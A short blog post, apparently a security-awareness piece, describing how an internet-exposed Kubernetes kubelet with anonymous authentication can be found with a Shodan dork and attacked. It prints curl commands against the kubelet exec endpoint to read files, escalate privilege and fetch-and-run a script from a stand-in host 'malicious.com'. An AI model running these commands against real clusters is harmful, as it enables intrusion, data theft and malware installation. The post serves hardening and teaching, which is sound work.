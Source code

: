 # Hacking Kubernetes Kubelet

⚠️ ATTENTION, THIS POST IS FOR EDUCATIONAL PURPOSES ONLY.  

Securing the components of our Kubernetes clusters must be a priority: Kubernetes is notorious for having default settings that are too permissive and hardening measures are often either neglected or focused solely on the API server.

Here's a real-world scenario of what could go wrong:

Our friendly neighborhood sysadmin, Joe, configured a cluster in a risky manner by exposing the kubelet to the internet with anonymous authentication enabled.

A malicious actor is conducting passive reconnaissance on Shodan using the following dork:
𝘬𝘶𝘣𝘦𝘭𝘦𝘵 𝘱𝘰𝘳𝘵:10250

The malicious hacker discovers Joe's cluster, with the kubelet service exposed on the hypothetical host "vulnerablehost" and port 10250.  
At this point, the attacker can attempt a discovery (according to the MITRE ATT&CK framework) with the following command:  

```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘱𝘰𝘥𝘴 | 𝘫𝘲 .
```  


Since kubelet runs with the 𝐚𝐧𝐨𝐧𝐲𝐦𝐨𝐮𝐬-𝐚𝐮𝐭𝐡 flag set to true (default), the attacker will obtain a list of all the pods running on the cluster.  
From now on, if debug endpoints are enabled, the hacker can proceed with malicious actions such as  

Exfiltrate Data:  
```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘦𝘹𝘦𝘤/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦𝘴𝘱𝘢𝘤𝘦>/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦>/<𝘤𝘰𝘯𝘵𝘢𝘪𝘯𝘦𝘳_𝘯𝘢𝘮𝘦> -𝘟𝘗𝘖𝘚𝘛 -𝘥 '𝘤𝘮𝘥=𝘤𝘢𝘵 /𝘱𝘢𝘵𝘩/𝘵𝘰/𝘴𝘦𝘯𝘴𝘪𝘵𝘪𝘷𝘦/𝘧𝘪𝘭𝘦'
```  


Remote Code Execution:  
```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘦𝘹𝘦𝘤/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦𝘴𝘱𝘢𝘤𝘦>/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦>/<𝘤𝘰𝘯𝘵𝘢𝘪𝘯𝘦𝘳_𝘯𝘢𝘮𝘦> -𝘟𝘗𝘖𝘚𝘛 -𝘥 '𝘤𝘮𝘥=𝘣𝘢𝘴𝘩 -𝘤 "𝘸𝘨𝘦𝘵 𝘩𝘵𝘵𝘱://𝘮𝘢𝘭𝘪𝘤𝘪𝘰𝘶𝘴.𝘤𝘰𝘮/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩 -𝘖 /𝘵𝘮𝘱/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩 && 𝘤𝘩𝘮𝘰𝘥 +𝘹 /𝘵𝘮𝘱/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩 && /𝘵𝘮𝘱/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩"'  

Privilege Escalation:  
```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘦𝘹𝘦𝘤/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦𝘴𝘱𝘢𝘤𝘦>/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦>/<𝘤𝘰𝘯𝘵𝘢𝘪𝘯𝘦𝘳_𝘯𝘢𝘮𝘦> -𝘟𝘗𝘖𝘚𝘛 -𝘥 '𝘤𝘮𝘥=𝘣𝘢𝘴𝘩 -𝘤 "𝘴𝘶𝘥𝘰 𝘴𝘶"'  
```  

At this point, I assure you that you wouldn't want to be in poor Joe's shoes.  


- [Back to main page](../../../README.md)  
